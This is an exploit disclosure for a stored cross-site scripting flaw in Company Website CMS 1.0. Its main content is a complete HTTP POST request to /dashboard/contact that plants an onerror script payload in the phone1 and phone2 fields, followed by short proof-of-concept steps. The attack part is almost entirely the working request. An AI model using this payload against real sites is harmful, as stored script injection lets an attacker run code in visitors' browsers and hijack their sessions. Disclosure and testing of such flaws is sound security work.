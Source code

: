 # Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code
#### Version: Company Website CMS  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application. Company Website CMS does not filter the content correctly at the  parameter, resulting in the generation of stored XSS.

#### Payload used:
```
POST /dashboard/contact HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7024317128117527412760215857
Content-Length: 989
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/contact
Upgrade-Insecure-Requests: 1

-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone1"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone2"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email1"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email2"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="longitude"

7.099737483
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="latitude"

7.63734634
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="save"


-----------------------------7024317128117527412760215857--

```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/， We can see the alert.;
3. 

   ![image-20220810135857875](./img/image-20220810135857875.png)
   

   

   





